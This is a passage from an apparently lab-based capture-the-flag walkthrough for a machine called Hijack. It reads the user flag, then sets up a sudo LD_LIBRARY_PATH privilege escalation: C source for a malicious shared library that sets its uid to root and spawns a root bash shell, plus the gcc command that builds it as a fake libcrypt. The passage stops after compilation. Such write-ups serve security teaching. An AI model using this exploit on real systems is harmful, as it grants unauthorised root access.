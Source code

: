 ![29deb2ea5f0f1a07940ccdf3f055bda2.png](/resources/fef8a4f7a9b94f3c8b882b0192a348e9.png)

We can then get the flag in `/home/rick/user.txt`:

```sh
ls -lah
cat /home/rick/user.txt
```

![46b72dfaa87ff7def24b1d6724ae9e02.png](/resources/2bd5b550779243b6b830dc667dcfa208.png)

### \[-] root\@Hijack

Let's start by checking our current `sudo` privileges by running the command and enter the password when prompted:

```sh
sudo -l
```

![11a6669b4f7b69ba6f1ebeb39e8920aa.png](/resources/4e40a6451ed84bfeb43a5d187a5dac85.png)

We can find an exploit abusing the `LD_LIBRARY_PATH` variable along with `sudo` on [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld_preload-and-ld_library_path).

FIrst we will switch to the `tmp` directory using `cd /tmp`, then create a new file named "`exploit.c`" using [vim](https://linux.die.net/man/1/vi):

```sh
cd /tmp
vim exploit.c
```

Then press the `i` key to enter "Insert" mode and paste the following code:

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

![39d8eb98f480a9d4dbc4e419c6d5583e.png](/resources/912696464d634cad94b735a127541740.png)

To save and exit, press the `ESC` key, then type `:wq` and press the `Enter` key:

![ef98b9a6cea0a80e3cf655ea2484f2b6.png](/resources/d2d9accc7e7544788ef469525fdc6193.png)

Complie it using the [gcc](https://linux.die.net/man/1/gcc) command:

```sh
gcc -o /tmp/libcrypt.so.1 -shared -fPIC exploit.c
```
